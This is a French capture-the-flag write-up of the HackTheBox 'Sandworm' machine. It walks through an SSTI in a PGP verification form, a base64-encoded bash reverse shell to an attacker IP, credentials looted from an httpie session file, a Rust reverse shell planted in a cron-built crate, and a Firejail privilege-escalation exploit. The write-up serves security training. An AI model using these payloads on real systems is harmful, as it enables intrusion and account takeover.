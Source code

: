 # Sandworm

	echo "10.10.11.218 ssa.htb" >> /etc/hosts
	sudo masscan -p1-65535,U:1-65535 10.10.11.218 -e tun0 > ports.txt
	sudo nmap -p- -T4 -A 10.10.11.218 -oN nmap.txt
	
Scans classiques.

	PORT STATE SERVICE VERSION  
	22/tcp  open  ssh      OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
    80/tcp  open  http     nginx 1.18.0 (Ubuntu)
    443/tcp open  ssl/http nginx 1.18.0 (Ubuntu)

Fuzzing : 

    feroxbuster --silent -u http://ssa.htb
    feroxbuster --silent -k -u https://ssa.htb
    
    ffuf -H "Host: FUZZ.ssa.htb" -u https://ssa.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -fs 8161

    ffuf -u https://ssa.htb/FUZZ -w ~/wordlists/big.txt -e .pdf,.php,.txt,.ini,.conf,.log,.html,.js,.bak,.zip


Pas mal de sous-dossiers classiques, mais certains ont l'air assez intéressants : 

    about                   [Status: 200, Size: 5584, Words: 1147, Lines: 77, Duration: 135ms]
    admin                   [Status: 302, Size: 227, Words: 18, Lines: 6, Duration: 166ms]
    contact                 [Status: 200, Size: 3543, Words: 772, Lines: 69, Duration: 117ms]
    guide                   [Status: 200, Size: 9043, Words: 1771, Lines: 155, Duration: 165ms]
    login                   [Status: 200, Size: 4392, Words: 1374, Lines: 83, Duration: 367ms]
    logout                  [Status: 302, Size: 229, Words: 18, Lines: 6, Duration: 300ms]
    pgp                     [Status: 200, Size: 3187, Words: 9, Lines: 54, Duration: 342ms]
    process                 [Status: 405, Size: 153, Words: 16, Lines: 6, Duration: 302ms]
    view                    [Status: 302, Size: 225, Words: 18, Lines: 6, Duration: 268ms]

- La page /admin renvoie sur /login
- La page /pgp amène sur une clé publique PGP
- La page /guide permet de chiffrer, déchiffrer et vérifier des messages avec PGP

J'ai généré une clé de mon côté et j'ai chiffré un message pour tester l'application. 

Voir https://www.gnupg.org/gph/en/manual/x135.html

    gpg --gen-key
    gpg --armor --export fake@gmail.com
    echo "Message à chiffrer" | gpg --clear-sign -u fake@gmail.com
    

En copiant la clé publique et le message signé dans le dernier formulaire de la page, on a bien un message nous indiquant que la signature du message est valide : 

    Signature is valid! [GNUPG:] NEWSIG fake@gmail.com gpg: Signature made Sat 28 Oct 2023 10:37:19 AM UTC gpg: using RSA key 56E8652AB92A5039EF5B2DB721FD97AF7825B5E2 gpg: issuer "fake@gmail.com"
    ...
    Good signature from "Timothe " [unknown] [GNUPG:] VALIDSIG 56E8652AB92A5039EF5B2DB721FD97AF7825B5E2 2023-10-28 1698489439 0 4 0 1 10 01 56E8652AB92A5039EF5B2DB721FD97AF7825B5E2 [GNUPG:] TRUST_UNDEFINED 0 pgp fake@gmail.com
    
Les champs entrés au moment de la création de ma clé publique (nom + adresse mail) sont renvoyés par le site web. 

En testant différents payloads dans ces champs puis en répétant l'opération, on remarque que les expressions de type {{9*9}} sont interprétées. Le site semble donc vulnérable aux SSTI. 

En utilisant le payload suivant, on peut vérifier que l'exécution de commande fonctionne bien : 
    
    {{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls').read() }}

En utilisant le payload suivant, on obtient bien un reverse-shell : 

    {{ self.__init__.__globals__.__builtins__.__import__('os').popen('echo c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuMTAvOTk5OSAwPiYx | base64 -d | bash').read() }}

Le morceau en Base64 est la version encodée de ce payload : 

    sh -i >& /dev/tcp/10.10.16.10/9999 0>&1


Après réception sur mon listener, je suis bien connecté en tant que l'utilisateur "atlas"


Impossible d'écrire dans /home/atlas/.ssh/authorized_keys ou de lire dans le dossier de l'autre utilisateur ("silentobserver"), mais en fouillant dans les dossiers de notre /home on finit par tomber sur des credentials dans **~/.config/httpie/sessions/localhost_5000**

    cd ~/.config/httpie/sessions/localhost_5000
    cat admin.json
    
> "auth": {
<br>        "password": "quietLiketheWind22",
<br>        "type": null,
<br>        "username": "silentobserver"
<br>    }

    ssh silentobserver@ssa.htb
	cat user.txt	 

## Pivoting

	sudo -l
	find / -perm /4000 2>/dev/null

Deux fichiers avec SUID sortent du lot : 
- /opt/tipnet/target/debug/tipnet
- /usr/local/bin/firejail

Des exploits existent déjà pour Firejail mais l'utilisateur actuel semble ne pas avoir les droits pour capitaliser là-dessus.

Dans /opt/tipnet on remarque un fichier access.log où on voit qu'une routine est effectuée toutes les deux minutes : 

> [2023-10-28 09:32:13] - User: ROUTINE, Query:  - , Justification: Pulling fresh submissions into database.
><br> [2023-10-28 09:34:12] - User: ROUTINE, Query:  - , Justification: Pulling fresh submissions into database.

J'ai décidé de lancer Pspy dans un deuxième shell pour vérifier si cela pouvait faire fuiter des informations :
    
    ssh silentobserver@ssa.htb
    cd /tmp
    wget http://10.10.16.10/pspy64
    chmod a+x pspy64
    ./pspy64
    
En attendant une minute ou deux, on remarque les lignes suivantes qui arrivent à l'écran : 


    2023/10/28 10:20:11 CMD: UID=0     PID=416286 | /bin/rm -r /opt/crates 
    2023/10/28 10:20:11 CMD: UID=0     PID=416287 | /bin/cp -rp /root/Cleanup/crates /opt/ 
    2023/10/28 10:20:11 CMD: UID=0     PID=416288 | /bin/bash /root/Cleanup/clean_c.sh 
    2023/10/28 10:20:59 CMD: UID=0     PID=416292 | /bin/sudo -u atlas /usr/bin/cargo run --offline 
    2023/10/28 10:21:14 CMD: UID=1001  PID=416295 | cat /home/silentobserver/.local/bin 
    2023/10/28 10:21:21 CMD: UID=1001  PID=416298 | ls --color=auto 
    2023/10/28 10:21:26 CMD: UID=1001  PID=416299 | -bash 
    2023/10/28 10:21:31 CMD: UID=1001  PID=416300 | ls --color=auto 
    2023/10/28 10:21:50 CMD: UID=1001  PID=416301 | 
    2023/10/28 10:22:01 CMD: UID=0     PID=416303 | /usr/sbin/CRON -f -P 
    2023/10/28 10:22:01 CMD: UID=0     PID=416302 | /usr/sbin/CRON -f -P 
    2023/10/28 10:22:01 CMD: UID=0     PID=416306 | /bin/sudo -u atlas /usr/bin/cargo run --offline 
    2023/10/28 10:22:01 CMD: UID=0     PID=416305 | 
    2023/10/28 10:22:01 CMD: UID=0     PID=416304 | /bin/sh -c cd /opt/tipnet && /bin/echo "e" | /bin/sudo -u atlas /usr/bin/cargo run --offline


On peut en déduire que la routine lancée toutes les deux minutes est exécutée par root mais en tant que l'utilisateur "atlas", que c'est du **Rust** et que le dossier à cibler est **/opt/crates**

Dans **/opt/crates/logger/src** il n'y a qu'un fichier lib.rs et par élimination on peut supposer que c'est lui qui sera compilé par atlas toutes les deux minutes.

On a le droit d'écriture dans ce fichier, on peut donc lui ajouter un reverse-shell Rust pour obtenir un vrai shell en tant que l'utilisateur atlas

Voir https://stackoverflow.com/questions/48958814/what-is-the-rust-equivalent-of-a-reverse-shell-script-written-in-python 

    cd /opt/crates/logger/src
    ls -la 
    vim lib.rs
    # Copier le reverse-shell en adaptant
    cargo build
    
Attention à bien ajouter le code au début de la fonction sans supprimer le reste, attention aux points-virgules et attention aux dépendances.

Plus qu'à attendre sur la machine d'attaque et on obtient le shell : 

    rlwrap nc -nvlp 9998
    whoami

On peut cette fois écrire dans ~/.ssh/authorized_keys pour fiabiliser la connexion : 

    python3 -c "import pty ; pty.spawn('/bin/bash');" 
    echo "ssh-rsa [XXX] timothe@Kali2021" > ~/.ssh/authorized_keys
    
    ssh atlas@ssa.htb

## Élévation de privilèges

Notre utilisateur ayant maintenant les droits pour lancer Firejail, on peut reprendre l'exploit trouvé au début de la phase de pivoting.
Voir https://gist.github.com/GugSaas/9fb3e59b3226e8073b3f8692859f8d25 

    vim poc_firejail.py
    chmod +x poc_firejail.py
    python3 poc_firejail.py
    ...
    firejail --join=423688
    su - 
    cat /root/root.txt
    
